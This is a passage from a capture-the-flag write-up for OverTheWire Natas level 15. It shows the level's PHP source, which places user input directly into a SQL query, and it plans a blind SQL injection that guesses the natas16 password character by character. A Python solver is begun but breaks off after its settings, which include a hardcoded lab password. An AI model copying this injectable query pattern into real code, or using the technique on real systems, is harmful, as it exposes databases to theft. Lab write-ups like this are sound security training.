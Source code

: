 ## Level 15
![image](https://hackmd.io/_uploads/r1l6BDrnJg.png)

The website allows me to check if a username is already existed.
The sourcecode:

```php=
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```
This level looks tricky, it only gives us "This user exists" or "This user doesn't exist". Let's try searching `natas16`.
![image](https://hackmd.io/_uploads/BynljPrhyx.png)
It seems that the password of this user is also the password of level 16. Look at the query:
`$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";`
I think I can add another statement to check the password by bruteforing each character. For example, let's check if the password contains letter `a` (then `b`, `c`, ...) --> if the website returns `This user exists`, this means the password contains the letter above.
Write a Python script to solve this task:
```python=
import requests
import string

# Target information
url = "http://natas15.natas.labs.overthewire.org/index.php"
auth_username = "natas15"
auth_password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
target_username = "natas16"

# Characters to try for the password
chars = string.ascii_letters + string.digits

# Function to check if a SQL condition is true
```